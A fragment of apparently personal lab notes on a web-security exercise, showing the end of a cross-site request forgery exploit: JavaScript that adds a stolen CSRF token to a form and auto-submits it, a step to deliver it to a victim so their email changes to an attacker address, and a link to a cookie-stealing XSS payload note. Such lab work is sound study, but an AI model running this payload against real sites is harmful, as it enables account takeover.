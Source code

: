 ```ad-done
csrf.name = 'csrf';
csrf.value = 'STOLEN-CSRF-TOKEN';
form.append(csrf);
form.append(input);
document.body.appendChild(form);
form.submit()
</script>
</body>
~~~
8. Click Store and Deliver exploit to victim. The user's email will be changed to ``hacker@evil-user.net``.
```

# Payloads
![[CookieStealer(XSS)]]